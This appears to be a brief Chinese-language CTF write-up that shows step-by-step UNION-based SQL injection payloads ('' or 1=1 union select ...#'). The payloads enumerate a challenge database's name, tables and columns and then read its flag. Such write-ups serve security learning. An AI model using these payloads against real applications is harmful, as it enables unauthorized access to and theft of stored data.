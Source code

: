 #SQL注入 
#### 1.查当前数据库名称
```
' or 1=1 union select 1,database(),3#
``` 
![[Pasted image 20230116153026.png]]
得到数据库名称web2
#### 2.查看数据库表
```
' or 1=1 union select 1,(select count(*) from information_schema.tables where table_schema = 'web2'),3#
```
![[Pasted image 20230116153435.png]]
表名
```
' or 1=1 union select 1,group_concat(table_name),3 from information_schema.tables where table_schema='web2'#
```
![[Pasted image 20230116153501.png]]
#### 3.查看表的列
```
' or 1=1 union select 1, group_concat(column_name),3 from information_schema.columns where table_name='flag'#
```
![[Pasted image 20230116153711.png]]
#### 4.查看flag
```
' or 1=1 union select 1,flag,3 from flag#
```
![[Pasted image 20230116153810.png]]
